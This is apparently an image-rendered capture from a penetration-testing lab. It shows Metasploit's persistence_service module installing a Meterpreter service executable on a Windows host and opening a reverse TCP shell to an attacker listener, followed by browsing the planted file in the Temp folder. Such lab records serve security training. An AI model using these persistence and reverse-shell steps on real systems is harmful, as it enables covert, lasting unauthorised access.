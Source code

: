 ```
msf6 exploit(windows/local/persistence_service) > exploit

[*] Started reverse TCP handler on 10.10.16.2:4433 
[*] Running module against ATTACKDEFENSE
[+] Meterpreter service exe written to C:\Users\ADMINI~1\AppData\Local\Temp\yXSEGLTG.exe
[*] Creating service gEvSzIR
[*] Cleanup Meterpreter RC File: /root/.msf4/logs/persistence/ATTACKDEFENSE_20230721.3007/ATTACKDEFENSE_20230721.3007.rc
[*] Sending stage (175174 bytes) to 10.0.19.113
[*] Meterpreter session 2 opened (10.10.16.2:4433 -> 10.0.19.113:49807) at 2023-07-21 15:30:07 +0530

meterpreter > 
```

```
meterpreter > pwd
C:\Windows\system32
meterpreter > cd C:\\
meterpreter > cd Users 
meterpreter > ls
Listing: C:\Users
=================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
40777/rwxrwxrwx   8192  dir   2020-10-27 10:45:26 +0530  Administrator
40777/rwxrwxrwx   0     dir   2018-09-15 12:58:48 +0530  All Users
40555/r-xr-xr-x   8192  dir   2018-09-15 11:39:26 +0530  Default
40777/rwxrwxrwx   0     dir   2018-09-15 12:58:48 +0530  Default User
40555/r-xr-xr-x   4096  dir   2018-09-15 12:49:00 +0530  Public
100666/rw-rw-rw-  174   fil   2018-09-15 12:46:48 +0530  desktop.ini
40777/rwxrwxrwx   8192  dir   2020-10-27 15:27:42 +0530  student

meterpreter > cd Administrator 
meterpreter > cd App
cd AppData            cd Application\ Data  
meterpreter > cd AppData 
meterpreter > cd Local
meterpreter > cd Temp
meterpreter > ls
Listing: C:\Users\Administrator\AppData\Local\Temp
==================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
40777/rwxrwxrwx   0      dir   2023-07-21 15:12:12 +0530  Low
100777/rwxrwxrwx  5632   fil   2023-07-21 15:30:07 +0530  yXSEGLTG.exe
100666/rw-rw-rw-  16384  fil   2023-07-21 15:12:13 +0530  ~DFCC7F5C8B0BE8160E.TMP
100666/rw-rw-rw-  16384  fil   2023-07-21 15:12:14 +0530  ~DFD0CF2CE10438D90C.TMP
```

